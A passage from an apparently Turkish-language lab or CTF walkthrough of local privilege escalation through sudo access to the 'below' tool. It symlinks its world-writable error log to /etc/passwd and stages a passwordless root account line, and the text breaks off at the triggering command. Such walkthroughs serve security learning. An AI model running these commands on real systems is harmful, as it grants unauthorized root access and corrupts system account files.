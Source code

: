 İlk olarak sistemde ne tür haklarımız olduğunu kontrol edeceğiz bunun için **sudo -l** komutunu alıştıracağız:

```console
jacob@censored:~$ sudo -l
Matching Defaults entries for jacob on censored:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on censored:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

```console
jacob@censored:~$ ls -ld /var/log/below
drwxrwxrwx 3 root root 4096 Jul 18 16:35 /var/log/below
```

Sistem üzerinde **below** aracını çalıştırma yetkimiz olduğunu görüyoruz. Şimdi bu aracı kullanarak zafiyeti sömüreceğiz:

İlk olarak mevcut **error_root.log** dosyasını siliyoruz.

```console
jacob@censored:~$ rm -f /var/log/below/error_root.log
```

Ardından `/etc/passwd` dosyasına sembolik link oluşturuyoruz:

```console
jacob@censored:~$ ln -s /etc/passwd /var/log/below/error_root.log
```

```console
jacob@censored:~$ ls -la /var/log/below/error_root.log
lrwxrwxrwx 1 jacob jacob 11 Jul 18 16:52 /var/log/below/error_root.log -> /etc/passwd
```

Geçici dosyamıza şifresiz bir **root** kullanıcısı ekliyoruz:

```console
jacob@ce:~$ echo 'b1lal::0:0:b1lal:/root:/bin/bash' > /tmp/below
```

Bu satırın yapısı aşaığıdaki gibidir:

```console
kullanıcı_adı:parola:UID:GID:açıklama:ana_dizin:shell
```

```console
jacob@censored:~$ cat /tmp/below
b1lal::0:0:b1lal:/root:/bin/bash
```

Şimdi ise önemli bir nokta olan hata tetikleme adımını gerçekleştireceğiz. Bunun içinde aşağıdaki komutu çalıştırıyoruz:

```console  
jacob@censored:~$ sudo /usr/bin/below record
```

